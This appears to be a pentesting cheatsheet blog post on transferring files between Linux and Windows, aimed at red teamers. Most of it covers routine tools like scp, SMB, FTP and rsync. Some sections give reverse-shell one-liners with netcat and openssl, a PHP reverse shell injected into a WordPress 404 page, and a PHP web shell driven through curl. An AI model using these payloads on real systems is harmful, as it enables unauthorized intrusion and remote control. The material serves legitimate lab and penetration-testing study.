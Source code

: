 ```yaml
---
title: "Comprehensive guide to securely transferring files between Linux and Windows for pentesters and red teamers"
date: 2025-01-22 10:10:00 +0700
categories: [Cheatsheets]
tags: [Cheatsheets, file-transfer, pentesting, red-team]
pin: false
---
```


## Comprehensive guide to securely transferring files Between Linux and Windows for pentesters and red teamers

### Introduction

Transferring files between Linux and Windows securely is a crucial skill for pentesters and Red Teamers. This guide provides step-by-step instructions using various methods, including encrypted transfers, ensuring you can handle different scenarios effectively and securely.

---

### File Transfer Methods

#### Using Python HTTP Server
On Kali:
```bash
python3 -m http.server 80
```

On Windows Target Machine:
```powershell
powershell -c "curl http://127.0.0.1/nc.exe" -o nc.exe
```

---

#### Using Netcat
On Kali:
```bash
nc -nvlp 1234
```

On Windows Target Machine:
```powershell
.\nc.exe 127.0.0.1 1234 -e powershell.exe
```

---

#### Using Wget
On Kali:
```bash
python3 -m http.server 443
```

On Target Machine:
```bash
wget http://127.0.0.1/shell3.elf
```

---

#### Using PowerShell
Download `plink.exe`:
```powershell
curl http://127.0.0.1/plink.exe -o plink.exe
```

Download another tool:
```powershell
iwr http://127.0.0.1/nc.exe -outf .\cute.exe
```

---

#### Using SCP (Secure Copy Protocol)
From Linux to Windows:
```bash
scp file.txt user@127.0.0.1:/path/to/destination
```

From Windows to Linux:
```bash
scp user@127.0.0.1:/path/to/source/file.txt /local/destination
```

---

#### Using SMB (Samba)
From Linux to Windows:
```bash
smbclient //127.0.0.1/share -U user -c "put file.txt"
```

From Windows to Linux:
```bash
smbclient //127.0.0.1/share -U user -c "get file.txt"
```

---

#### Using FTP
Start FTP server on Linux:
```bash
python3 -m pyftpdlib -p 21
```

On Windows Target Machine:
```bash
ftp 127.0.0.1
# Use `put` to upload or `get` to download files.
```

---

#### Using HTTP with Curl on Windows
On Kali:
```bash
python3 -m http.server 8080
```

On Windows Target Machine:
```powershell
curl http://127.0.0.1/file.txt -o file.txt
```

---

#### Using Rsync
From Linux to Windows:
```bash
rsync -avz file.txt user@127.0.0.1:/path/to/destination
```

From Windows to Linux:
```bash
rsync -avz user@127.0.0.1:/path/to/source/file.txt /local/destination
```

---

#### Using FTP via Netcat
On Kali:
```bash
nc -nlvp 9000 < file.txt
```

On Windows Target Machine:
```bash
nc 127.0.0.1 9000 > file.txt
```

---

#### Using Python FTP Client
On Linux:
```bash
python3 -m pyftpdlib -p 21
```

On Windows:
```bash
ftp 127.0.0.1
# Login and use `put` or `get` to transfer files.
```

---

#### Using Tar Over SSH
From Linux to Windows:
```bash
tar czf - file.txt | ssh user@127.0.0.1 "tar xzf - -C /path/to/destination"
```

From Windows to Linux:
```bash
ssh user@127.0.0.1 "tar czf - -C /path/to/source ." | tar xzf - -C /local/destination
```

---

### Advanced Encrypted Transfers

#### Using OpenSSL for Secure Transfers
On Kali:
```bash
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -key key.pem -cert cert.pem -port 1337
```
Start the listener with:
```bash
sudo openssl s_server -key key.pem -cert cert.pem -port 1337
```

#### Exploit Example for File Upload and Execution
On the vulnerable page (e.g., WordPress 404 page):
```php
this is a test
<?= system('mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > /tmp/s; rm /tmp/s'); ?>
```
Update the 404 page, and trigger the shell by visiting:
```
http://localhost.htb/main/wp-content/themes/twentytwenty/404.php
```

#### Stabilizing the Shell
After getting the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
```
Press `CTRL + Z`, then run:
```bash
stty raw -echo; fg
# Press Enter twice to stabilize
```

#### Alternative Command Injection
Replace vulnerable code with:
```php
<?php echo system($_REQUEST['cmd']); ?>
```
Example usage:
```
wp-content/plugins/akismet/wrapper.php?cmd=whoami
```
Or via `curl`:
```bash
curl -X POST http://spectra.htb/pathtoaskismet/wrapper.php -d cmd="nc 127.0.0.1 1337 -e /bin/sh"
```

